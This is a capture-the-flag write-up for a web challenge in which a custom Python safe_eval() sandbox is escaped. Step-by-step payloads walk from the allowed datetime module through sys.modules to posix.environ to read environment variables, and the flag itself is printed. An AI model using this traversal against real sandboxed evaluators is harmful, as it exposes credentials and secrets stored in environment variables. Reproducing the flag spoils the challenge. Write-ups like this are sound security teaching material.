 **Challenge:** Vibe_web_mail
**Category:** Web — Server-Side Template Injection (SSTI) / Python Sandbox Escape  
**Src:** [Vibe Web Mail — safe_eval.py](../Vibe_web_mail/)

## Overview

This challenge presents a custom `safe_eval()` function attempting to sandbox user expressions. The vulnerability lies in insufficient sandboxing that allows traversal from permitted builtin modules to system-level objects, ultimately leading to environment variable disclosure.

## Vulnerability Analysis

The application implements a custom `safe_eval()` function with the following security measures:

1. **Opcode Whitelisting**: Compiles expressions and validates opcodes against `_SAFE_OPCODES`
2. **Attribute Filtering**: Blocks names containing `__` and dangerous attributes
3. **Restricted Builtins**: Sets `globals()['__builtins__'] = dict(_BUILTINS)` with limited modules including `datetime`

However, the sandbox fails because:

- Permitted builtin modules retain references to the Python interpreter internals
- Object traversal through `sys.modules` is possible
- No restriction on accessing loaded modules via registry

## POSIX Module Background

The `posix` module is Python's low-level interface to POSIX operating system calls on Unix-like systems (Linux, macOS, etc.). It provides direct access to:

- **Environment variables** (`environ`)
- **File system operations** (`open`, `read`, `write`)
- **Process management** (`fork`, `exec`, `getpid`)
- **System information** (`uname`, `getuid`)

In Python sandbox escapes, `posix` is particularly valuable because it bridges the gap between Python code and the underlying operating system, often containing sensitive information like environment variables where flags are commonly stored.

## Exploitation

### Step 1: Reconnaissance

First, confirm expression evaluation works:

**Payload:** `7*7`  
**Result:** `49`

![Step 1 - Basic evaluation test](images/image_1.png)

### Step 2: Builtin Module Access

Test access to permitted `datetime` module:

**Payload:** `str(datetime)`  
**Result:** `<module 'datetime' from '/usr/lib/python3.x/datetime.py'>`

![Step 2 - DateTime module access](images/image_2.png)

**Payload:** `str(datetime.datetime.now())`  
**Result:** Current timestamp confirms method execution

### Step 3: System Module Discovery

Traverse from `datetime` to `sys.modules` to enumerate loaded modules:

**Payload:** `list(datetime.sys.modules.keys())`  
**Result:** List of all loaded Python modules

![Step 3 - Enumerate loaded modules](images/image_3.png)

### Step 4: POSIX Module Access

Verify access to `posix` module (Unix system interface):

**Payload:** `str(datetime.sys.modules.get("posix"))`  
**Result:** `<module 'posix' (built-in)>`

![Step 4 - POSIX module verification](images/image_4.png)

### Step 5: Environment Variable Access

Access OS environment variables through `posix.environ`:

**Payload:** `str(datetime.sys.modules.get("posix").environ)`  
**Result:** Dictionary of environment variables

![Step 5 - Environment variables access](images/image_5.png)

## Flag

`ASIS{PH1ND_50m3_V183_1n_3NV_de1d8572fde00fb04f06d1ce}`

---

_Author: Gia Than_
